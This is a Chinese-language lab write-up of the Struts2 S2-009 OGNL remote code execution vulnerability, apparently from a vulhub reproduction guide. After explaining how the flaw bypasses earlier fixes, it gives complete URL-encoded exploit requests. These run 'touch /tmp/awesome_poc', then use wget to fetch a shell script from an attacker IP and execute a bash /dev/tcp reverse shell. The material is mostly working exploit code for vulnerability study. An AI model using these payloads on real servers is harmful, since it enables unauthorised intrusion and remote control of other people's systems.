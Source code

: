 # Struts2 S2-009 远程代码执行漏洞

## 漏洞描述

> 前置阅读： 这个漏洞再次来源于s2-003、s2-005。了解该漏洞原理，需要先阅读s2-005的说明：https://github.com/phith0n/vulhub/blob/master/struts2/s2-005/README.md

参考[Struts2漏洞分析之Ognl表达式特性引发的新思路](https://www.t00ls.net/viewthread.php?tid=21197)，文中说到，该引入ognl的方法不光可能出现在这个漏洞中，也可能出现在其他java应用中。

Struts2对s2-003的修复方法是禁止静态方法调用，在s2-005中可直接通过OGNL绕过该限制，对于`#`号，同样使用编码`\u0023`或`\43`进行绕过；于是Struts2对s2-005的修复方法是禁止`\`等特殊符号，使用户不能提交反斜线。

但是，如果当前action中接受了某个参数`example`，这个参数将进入OGNL的上下文。所以，我们可以将OGNL表达式放在`example`参数中，然后使用`/helloword.acton?example=<OGNL statement>&(example)('xxx')=1`的方法来执行它，从而绕过官方对`#`、`\`等特殊字符的防御。

漏洞详情: 

- http://struts.apache.org/docs/s2-009.html

## 影响版本

影响版本: 2.1.0 - 2.3.1.1 

## 环境搭建

Vulhub执行以下命令启动s2-009测试环境：

```
docker-compose build
docker-compose up -d
```

## 漏洞复现

测试环境是一个struts2的“功能展示”网站`Struts Showcase`，代码很多，我们的目标是去找一个接受了参数，参数类型是string的action。

先对`S2-009.war`进行解压（我用binwalk，其实直接zip就可以），可见源码都在`WEB-INF/src`目录中，我一般找ajax相关的代码，这些代码一般逻辑比较简单。

找到一个`WEB-INF/src/java/org/apache/struts2/showcase/ajax/Example5Action.java`：

```
public class Example5Action extends ActionSupport {

    private static final long serialVersionUID = 2111967621952300611L;

    private String name;
    private Integer age;


    public String getName() { return name; }
    public void setName(String name) { this.name = name; }

    public Integer getAge() { return age; }
    public void setAge(Integer age) { this.age = age; }

    @Override
    public String execute() throws Exception {
        return SUCCESS;
    }
}
```

代码没有更简单了，其接受了name参数并调用setName将其赋值给私有属性`this.name`，正是符合我们的要求。然后去`WEB-INF/src/java/struts-ajax.xml`看一下URL路由：

```
<package name="ajax" extends="struts-default">
    ...
    <action name="example5" class="org.apache.struts2.showcase.ajax.Example5Action">
        <result name="input">/ajax/tabbedpanel/example5.jsp</result>
        <result>/ajax/tabbedpanel/example5Ok.jsp</result>
    </action>
    ...
</package>
```

`name=example5`，所以访问`http://your-ip:8080/ajax/example5.action`即可访问该控制器。按照原理中说到的方法，将OGNL利用代码放在name参数里，访问该URL：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27touch%20/tmp/awesome_poc%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
Host: localhost:8080
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
```

![image-20220301165654308](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011656411.png)

由于该POC没有回显，所以调用的是`touch /tmp/awesome_poc`命令，查看/tmp目录发现已经成功：

![image-20220301165639798](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011656842.png)

### 反弹shell

编写shell脚本并启动http服务器：

```
echo "bash -i >& /dev/tcp/192.168.174.128/9999 0>&1" > shell.sh
python3环境下：python -m http.server 80
```

上传shell.sh文件的命令为：

```
wget 192.168.174.128/shell.sh
```

上传shell.sh文件的Payload为：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27wget%20192.168.174.128/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
```

执行shell.sh文件的命令为：

```
bash /usr/local/tomcat/shell.sh
```

执行shell.sh文件的Payload为：

```
GET /ajax/example5?age=12313&name=%28%23context[%22xwork.MethodAccessor.denyMethodExecution%22]%3D+new+java.lang.Boolean%28false%29,%20%23_memberAccess[%22allowStaticMethodAccess%22]%3d+new+java.lang.Boolean%28true%29,%20@java.lang.Runtime@getRuntime%28%29.exec%28%27bash%20/usr/local/tomcat/shell.sh%27%29%29%28meh%29&z[%28name%29%28%27meh%27%29]=true HTTP/1.1
```

成功接收反弹shell：

![image-20220301165932437](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202203011659531.png)